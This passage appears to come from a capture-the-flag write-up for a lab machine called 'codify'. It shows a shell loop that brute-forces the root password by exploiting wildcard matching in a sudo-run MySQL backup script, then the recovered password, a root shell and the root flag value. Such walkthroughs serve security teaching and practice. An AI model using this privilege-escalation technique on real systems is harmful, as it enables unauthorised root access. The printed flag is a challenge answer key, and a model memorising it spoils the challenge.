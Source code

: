 It was possible to script the process until the root password was identified.

```shell
joshua@codify:/opt/scripts$ for c in {A..Z} {a..z} {0..9} ; do export CURRENT=kljh12k3jhaskjh12kjh$c && echo "$CURRENT*" |sudo /opt/scripts/mysql-backup.sh| grep confirmed && echo "--------> Found $CURRENT" ; done
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
--------> Found kljh12k3jhaskjh12kjh3
```

![](img/codify7.png)

Identified the password "kljh12k3jhaskjh12kjh3." You change the user to root.

```shell
joshua@codify:/opt/scripts$ su root
Password: 
root@codify:/opt/scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

Simply root.

***root.txt***: c3c505abd2389221edf2f0e8cda02f58

![](img/codify8.png)
